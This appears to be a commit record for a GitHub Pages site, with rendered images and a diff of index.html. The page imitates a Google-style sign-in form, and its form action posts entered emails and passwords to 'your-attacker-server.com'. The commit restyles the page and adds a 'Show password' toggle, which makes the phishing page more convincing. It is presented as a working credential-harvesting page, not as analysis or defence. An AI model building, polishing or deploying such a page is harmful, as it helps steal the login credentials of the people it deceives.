

Before and after one commit to singularity-nnn/singularity-nnn.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 156-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,34 +13,44 @@
       padding: 20px;
     }
     .container {
-      max-width: 400px;
+      max-width: 450px;
       margin: auto;
       background: #fff;
-      padding: 25px;
-      border-radius: 10px;
-      box-shadow: 0 0 10px #ccc;
+      padding: 30px;
+      border-radius: 12px;
+      box-shadow: 0 0 15px #ccc;
     }
     .logo {
       text-align: center;
-      margin-bottom: 20px;
+      margin-bottom: 25px;
     }
     .logo img {
       width: 120px;
     }
+    .form-group {
+      margin-bottom: 15px;
+    }
     input[type="email"], input[type="password"] {
       width: 100%;
-      padding: 10px;
+      padding: 12px;
+      margin: 8px 0;
+      border: 2px solid #4285F4;
+      border-radius: 6px;
+      font-size: 14px;
+      background-color: #f2f2f2;
+    }
+    .show-password {
+      display: block;
       margin: 10px 0;
-      border: 1px solid #ccc;
-      border-radius: 5px;
+      font-size: 14px;
     }
     button {
       width: 100%;
-      padding: 12px;
+      padding: 14px;
       background: #4285F4;
       color: white;
       border: none;
-      border-radius: 5px;
+      border-radius: 6px;
       cursor: pointer;
       font-size: 14px;
       transition: background 0.3s ease;
@@ -74,8 +84,15 @@
 Logo">
     </div>
     <form action="https://your-attacker-server.com/login" method="POST">
-      <input type="email" name="email" placeholder="Email" required>
-      <input type="password" name="password" placeholder="Password" required>
+      <div class="form-group">
+        <input type="email" name="email" placeholder="Email" required>
+      </div>
+      <div class="form-group">
+        <input type="password" name="password" placeholder="Password" required>
+      </div>
+      <label class="show-password">
+        <input type="checkbox" id="showPassword"> Show password
+      </label>
       <button type="submit">Next</button>
     </form>
     <div class="message">
```
